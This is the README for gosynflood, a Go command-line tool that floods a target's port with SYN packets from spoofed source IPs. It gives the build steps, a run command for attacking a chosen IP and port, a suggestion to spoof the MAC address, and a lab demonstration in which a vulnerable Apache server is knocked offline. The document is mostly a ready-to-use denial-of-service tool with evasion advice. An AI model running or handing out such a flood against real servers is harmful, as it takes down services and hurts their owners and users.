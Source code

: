 
### gosynflood - Repeatedly Send Crafted TCP SYN Packets with Raw Sockets

###### USAGE:
<pre>
  <code>
# get the project
go get github.com/rootVIII/gosynflood


# Navigate to project root and build:
go build .

# raw sockets require root privileges when executing:
sudo ./gosynflood \
    -t &lt;target IPV4 address&gt; \
    -p &lt;port number&gt; \
    -i &lt;network interface&gt;

# Example:
sudo ./gosynflood -t 192.168.1.120 -p 80 -i wlp3s0

** The bin/builds directory has a compiled executable if you do not have
Golang installed or do not want to build it yourself.
  </code>
</pre>

###### CLI OPTIONS:
<pre>
  <code>
-t private or public IP address of webserver
-p port number (defaults to port 80 if not provided)
-i network interface (running without -i will fail but suggest found interfaces)

Enter control-C to stop the flood attack.
  </code>
</pre>

Each packet's IP address is spoofed. <b>MAC addresses are not spoofed</b>.
It is up to you to spoof your MAC Address if desired before usage.

This attack may only work on web servers susceptible to numerous half-open connections (SYN_RECV).

To demonstrate this, a small Ubuntu Mate running Apache2 will act as the target.
It's a physical machine on a private network.

<hr>
1. The tcp_syncookies flag was set to 0 (to make the target vulnerable for demonstration purposes) and the webserver was started on the target:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/1.png">


2. The attacker machine (a separate physical machine also running Ubuntu) executes the gosynflood exe with root privileges:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/5.png">


3. The initial SYNs are visible in Wireshark on the target
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/2.png">
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/3.png">


4. During the attack the webserver should be unreachable at it's URL if it is susceptible. The half-open connections are visible via the command <code>netstat -na --tcp</code>
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/4.png">




This was developed on Ubuntu 18.04 LTS.
<hr>
<b>Author: rootVIII  2020</b>
<br><br>